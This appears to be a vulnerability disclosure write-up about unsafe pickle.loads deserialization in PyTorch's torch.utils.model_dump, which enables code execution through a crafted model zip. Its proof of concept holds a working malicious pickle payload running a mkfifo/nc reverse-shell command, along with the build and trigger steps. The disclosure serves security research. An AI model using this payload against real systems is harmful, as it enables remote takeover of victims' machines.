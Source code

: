 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in torch.utils.model_dump in pytorch(Informative)"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in torch.utils.model_dump

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 2.3.1

## Description

In pytorch module [`torch.utils.model_dump`](https://github.com/pytorch/pytorch/blob/main/torch/utils/model_dump/__init__.py), the method [`get_model_info`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L189) is responsible for extracting a model data in zip file. However, during the extraction, if a pickle file endswith `debug_pkl`, this file will be parsed by [`pickle.loads` function](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264). In this case, if a [malicous pickle file is parsed](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle), we can achive command injection in victim's mechine.

The vulnerable function: [`get_model_info`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264)

```
def get_model_info(
        path_or_file,
        title=None,
        extra_file_size_limit=DEFAULT_EXTRA_FILE_SIZE_LIMIT):
    """Get JSON-friendly information about a model.

    The result is suitable for being saved as model_info.json,
    or passed to burn_in_info.
    """
    ...
    with zipfile.ZipFile(path_or_file) as zf:
        
        code_files = {}
        for zi in zf.infolist():
            if not zi.filename.endswith(".py"):
                continue
            with zf.open(zi) as handle:
                raw_code = handle.read()
            with zf.open(zi.filename + ".debug_pkl") as handle:
                raw_debug = handle.read()

            # Parse debug info and add begin/end markers if not present
            # to ensure that we cover the entire source code.
            # vulnerable sink!!!!!!!!!!
            debug_info_t = pickle.loads(raw_debug)
            
    ...
    return {"model": dict(
        title=title,
        file_size=file_size,
        version=version,
        zip_files=zip_files,
        interned_strings=list(interned_strings),
        code_files=code_files,
        model_data=model_data,
        constants=constants,
        extra_files_jsons=extra_files_jsons,
        extra_pickles=extra_pickles,
    )}
```

## Proof of Concept

Firstly, let's create a malicous model, and compress it with zip format. In [`get_model_info#L230`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L230), we know the model directory must contain `version` file. In [`get_model_info#L238`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L238), we know the model directory must contain `data.pkl` and `constants.pkl` files. In line [`get_model_info#L255`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L255) and line [`get_model_info#L259`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L259), we know that the model must contain a python file and a `debug_pkl` file. So, let's create those files:

### `version`

```
1.1.0
```

### `data.pkl` and `constants.pkl`

Use following snippets to create `data.pkl` file:

```
import pickle
student_names = [1]
with open('data.pkl', 'wb') as f:
    pickle.dump(student_names, f)
```

Use following snippets to create `constants.pkl` file:

```
import pickle
student_names = ["df"]
with open('constants.pkl', 'wb') as f:
    pickle.dump(student_names, f)
```

### `payload.py`

Just create a empty file named `payload.py`

### `payload.py.debug_pkl`

Use following snippets to create a malicous pickle payload:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('payload.py.debug_pkl', 'wb') as f:
    pickle.dump(RCE(), f)
```

### `malicious model zip file`

Copy all the files to a folder and create a model zipfile:

```
> ls -la torch-model-dump
-rw-r--r-- 1 kali kali   20 Jun 24 17:45 constants.pkl
-rw-r--r-- 1 kali kali   17 Jun 24 17:45 data.pkl
-rw-r--r-- 1 kali kali    0 Jun 24 17:45 payload.py
-rw-r--r-- 1 kali kali  121 Jun 24 17:45 payload.py.debug_pkl
-rw-r--r-- 1 kali kali    6 Jun 24 17:39 version

> zip -r torch-model-dump.zip torch-model-dump
```

The [`torch-model-dump.zip`](https://raw.githubusercontent.com/sunriseXu/onnx/main/torch-model-dump.zip) can be download from github.

## Start attack

Install latest pytorch:

```
pip install torch
```

Use following command to trigger the unsafe `pickle.loads` command injection:

```
python -m torch.utils.model_dump --style=json ./torch-model-dump.zip
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/1jKXmbFS4EcpwfYn1UXeKPFNV-dB3VtIs?usp=sharing](https://colab.research.google.com/drive/1jKXmbFS4EcpwfYn1UXeKPFNV-dB3VtIs?usp=sharing)

![image](/assets/images/bughunter/torch-pickle.png)

## Impact

This vulnerability can have severe consequences. If victims parse a malicious model file using `torch.utils.model_dump`, command injection can be achieved.


## Occurrences

[get_model_info#L264](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264)

